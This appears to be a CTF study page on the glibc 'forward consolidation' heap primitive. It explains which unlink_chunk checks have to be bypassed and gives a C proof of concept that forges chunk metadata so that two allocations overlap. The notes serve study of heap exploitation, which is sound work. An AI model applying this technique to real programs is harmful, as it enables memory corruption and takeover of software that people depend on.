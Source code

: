 ## forward consolidation

**Purpose:** We can have two separate chunks allocated to the same space

**Require:** Have an ability to change the metadata of the allocated chunks

**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass

- [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
- [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## PoC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *victim, *consolidated_chunk, *chunk2;

    victim = malloc(0x410);
    consolidated_chunk = malloc(0x80);
    chunk2 = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup consolidated_chunk->next prev_size & size fields */
    chunk2[-2] = 0x90;
    chunk2[-1] = 0x20;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim);
    // After this, our victim chunk would be freed, and due to fwd consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *new_chunk = malloc(0x410);
    long *overlaping_chunk = malloc(0x80);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```

## Reference

- https://github.com/lieuhoaisa/CTFnotes/blob/main/heap/primitives/malloc/foward_consolidation/readme.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/fwd_consolidation/readme.md
